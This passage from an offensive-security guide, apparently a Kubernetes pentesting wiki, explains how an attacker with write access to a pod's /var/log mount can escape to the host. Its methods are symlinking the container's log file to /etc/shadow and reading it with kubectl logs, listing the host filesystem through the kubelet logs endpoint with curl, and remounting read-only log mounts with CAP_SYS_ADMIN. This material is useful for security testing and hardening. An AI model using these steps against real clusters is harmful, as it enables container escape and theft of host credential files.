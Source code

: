 Therefore, an attacker with **access to write in the /var/log/ folder** of the container could abuse this behaviours in 2 ways:

* Modifying the `0.log` file of its container (usually located in `/var/logs/pods/namespace_pod_uid/container/0.log`) to be a **symlink pointing to `/etc/shadow`** for example. Then, you will be able to exfiltrate hosts shadow file doing:

```bash
kubectl logs escaper
failed to get parse function: unsupported log format: "root::::::::\n"
kubectl logs escaper --tail=2
failed to get parse function: unsupported log format: "systemd-resolve:*:::::::\n"
# Keep incrementing tail to exfiltrate the whole file
```

* If the attacker controls any principal with the **permissions to read `nodes/log`**, he can just create a **symlink** in `/host-mounted/var/log/sym` to `/` and when **accessing `https://<gateway>:10250/logs/sym/` he will lists the hosts root** filesystem (changing the symlink can provide access to files).

```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="init">init</a>
<a href="lib">lib</a>
[...]
```

**A laboratory and automated exploit can be found in** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

#### Bypassing readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

If you are lucky enough and the highly privileged capability capability `CAP_SYS_ADMIN` is available, you can just remount the folder as rw:

```bash
mount -o rw,remount /hostlogs/
```

#### Bypassing hostPath readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

As stated in [**this research**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html) it’s possible to bypass the protection:

```yaml
allowedHostPaths:
    - pathPrefix: "/foo"
       readOnly: true
```
